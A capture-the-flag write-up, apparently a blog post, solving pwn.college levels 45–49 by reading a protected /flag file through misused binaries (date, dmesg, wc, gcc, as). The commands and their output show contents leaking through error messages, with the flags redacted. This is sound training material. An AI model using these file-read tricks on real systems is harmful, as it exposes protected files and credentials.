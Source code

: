 
**Just straight up wasn't designed to let you read files!**

**Level 45** : `date`

{{< button href="<https://gtfobins.github.io/gtfobins/date/>" target="_blank" >}}
GTFOBins reference
{{< /button >}}

```shell
$ date -f /flag
date: invalid date ‘pwn.college{redacted}’
```

**Level 46** : `dmesg`

{{< button href="<https://gtfobins.github.io/gtfobins/dmesg/>" target="_blank" >}}
GTFOBins reference
{{< /button >}}

```shell
$ dmesg -rF /flag
pwn.college{redacted}
```

**Level 47** : `wc`

```shell
$ wc --files0-from /flag
wc: 'pwn.college{redacted}'$'\n': No such file or directory
```

**Level 48** : `gcc`

{{< button href="<https://gtfobins.github.io/gtfobins/gcc/>" target="_blank" >}}
GTFOBins reference
{{< /button >}}

The file is read and parsed as a list of files (one per line), and the contents are leaked with error messages.

```shell
$ gcc @/flag
gcc: error: pwn.college{redacted}: No such file or directory
gcc: fatal error: no input files
compilation terminated.
```

**Level 49** : `as`

In the same way as with `gcc`, we leak with error messages.

```shell
$ as @/flag
Assembler messages:
Error: can't open pwn.college{redacted} for reading: No such file or directory
```

---

**Just straight up wasn't designed to let you read files! This level has a "decoy" solution that looks like it leaks the flag, but is not correct. If you're submitting what you feel should be a valid flag, and the dojo doesn't accept it, try your solution against a file with uppercase characters to see what's going on.**
